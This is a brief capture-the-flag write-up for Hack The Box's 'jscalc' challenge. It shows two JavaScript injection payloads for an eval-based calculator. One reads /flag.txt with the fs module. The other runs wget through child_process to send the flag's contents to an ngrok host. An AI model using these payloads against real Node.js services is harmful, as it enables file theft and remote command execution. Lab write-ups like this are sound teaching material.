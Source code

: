# Hack The Box Challenge - Calculator File Reading

## Challenge Description
HTB jscalc, your goal is to run a script in the calculator input that reads the contents of a file named `flag.txt`. CHALLENGE DESCRIPTION: In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑


## Easy Exploit
File System Module
The easiest way is to use the fs module.

1. In the calculator input, run the following JavaScript code to get the flag:

   ```javascript
   require('fs').readFileSync('/flag.txt', 'utf8')


## Another Way To Exploit Using Ngrok Revrse Flag

```javascript
require('child_process').exec('wget https://fsr2-a3f2-v01v-b337-7100-212f-5c22-ecar-g5ar.ngrok-free.app?flag=$(cat /flag.txt)')
